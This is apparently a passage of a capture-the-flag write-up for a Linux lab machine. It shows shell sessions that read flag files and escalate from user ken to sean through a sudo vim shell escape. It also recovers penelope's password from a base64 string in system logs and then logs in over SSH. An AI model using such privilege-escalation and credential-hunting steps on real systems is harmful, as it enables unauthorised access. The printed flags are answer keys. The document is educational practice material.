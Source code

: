 <p>!/bin/bash</p>

```bash
ken@linuxagency:/home/jordan$
ken@linuxagency:~$ ls
examples.desktop  flag.txt
ken@linuxagency:~$ cat flag.txt
ken{4115bf456d1aaf012ed4550c418ba99f}
```

<br>

<p>4.7. What is sean's flag?<br>
<code>sean{4c5685f4db7966a43cf8e95859801281}</code></p>

```bash
ken@linuxagency:~$ sudo -l
Matching Defaults entries for ken on linuxagency:
    env_reset, env_file=/etc/sudoenv, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User ken may run the following commands on linuxagency:
    (sean) NOPASSWD: /usr/bin/vim
ken@linuxagency:~$ sudo -u sean vim -c ':!/bin/bash'

sean@linuxagency:/home/ken$
...
sean@linuxagency:~$ grep -rn 'sean' /var/log 2>/dev/null
/var/log/syslog.bak:98675:Jan 12 02:58:58 ubuntu kernel: [    0.000000] ACPI: LAPIC_NMI (acpi_id[0x6d] high edge lint[0x1]) : sean{4c5685f4db7966a43cf8e95859801281} VGhlIHBhc3N3b3JkIG9mIHBlbmVsb3BlIGlzIHAzbmVsb3BlCg==
/var/log/auth.log:444:Jun 25 18:12:34 localhost sudo:      ken : TTY=pts/10 ; PWD=/home/ken ; USER=sean ; COMMAND=/usr/bin/vim -c :!/bin/bash
Binary file /var/log/journal/e5c33f65843d4fde84404ee7ae1a0806/user-1036.journal matches
Binary file /var/log/journal/e5c33f65843d4fde84404ee7ae1a0806/user-1037.journal matches
sean@linuxagency:~$ 
```

<br>

<p>4.8. What is penelope's flag?<br>
<code>penelope{2da1c2e9d2bd0004556ae9e107c1d222}</code></p>

<p>p3nelope</p>

![image](https://github.com/user-attachments/assets/ceae9855-e256-4278-80cd-4de0aa146a6b)

```bash
:~# ssh penelope@10.10.167.9
penelope@10.10.167.9's password: 
...

penelope@linuxagency:/home$ cd penelope
penelope@linuxagency:~$ ls
base64  examples.desktop  flag.txt
penelope@linuxagency:~$ cat flag.txt
penelope{2da1c2e9d2bd0004556ae9e107c1d222}
```

